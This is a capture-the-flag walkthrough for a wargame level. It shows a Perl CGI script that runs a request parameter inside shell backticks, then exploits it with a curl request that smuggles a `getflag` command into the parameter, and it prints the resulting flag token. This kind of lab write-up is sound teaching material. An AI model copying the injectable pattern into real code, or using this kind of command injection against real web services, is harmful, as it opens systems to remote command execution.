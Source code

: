 

# **Level04**

### **Walk through**

For this level, we have a file level04.pl in our home. It's a Perl script. 

`cat level04.pl` gives us:

```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x")); 
```
**sub x** defines a subroutine. In it, there's a variable **y** that takes the value of the first argument of the function. The back ticks mean for **print** that it has to execute the shell command `echo $y 2>&1` instead of print `echo $y 2>&1`. So we can conclude that **y** aka the first param will be executed. So the idea in this case is to pass `getflag` as argument to the **x** subroutine. To do so, we'll use that command:

```curl localhost:4747?'x=`getflag`'```  gives us **`ne2searoevaevoem4ov4ar8ap`**

We will use it to log as level05

`su level05`
